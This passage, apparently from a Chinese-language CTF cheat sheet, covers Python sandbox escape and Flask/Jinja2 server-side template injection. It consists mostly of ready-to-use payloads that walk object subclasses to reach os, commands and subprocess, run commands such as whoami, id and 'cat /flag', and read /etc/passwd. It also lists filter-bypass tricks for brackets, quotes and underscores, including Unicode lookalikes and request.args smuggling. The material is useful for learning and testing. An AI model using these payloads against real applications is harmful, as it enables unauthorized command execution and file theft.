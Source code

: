 ```
>>> [c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('whoami').read()
```

#### 利用commands 进行命令执行

```
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

#### 利用任意字符串或特殊变量

```
sss.__init__.__globals__.__builtins__.open("/flag").read()
config.__class__.__init__.__globals__['os'].popen('ls').read()
request.application.__globals__['__builtins__']['__import__']('os').popen('ls').read()
```

### 绕过

#### **中括号 []**

pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。

在这里使用pop并不会真的移除，但却能返回其值，取代中括号，来实现绕过。

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
().__class__.__mro__.__getitem__(1).__subclasses__().pop(407)("cat /flag",shell=True,stdout=-1).communicate().__getitem__(0)
```

unicode字符：`［］`，`﹇﹈`

#### 引号 ‘’**

`request.args` 是flask中的一个属性，为返回请求的参数，这里把`path`当作变量名,将后面的路径传值进来，进而绕过了引号的过滤。

```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
```

unicode字符：`＂＂`，`＇＇`

#### **单下划线 _**

过滤了`_`可以用`dir(0)[0][0]`或者`request['args']`或者 `request['values']`绕过。

#### **双下划线 __**
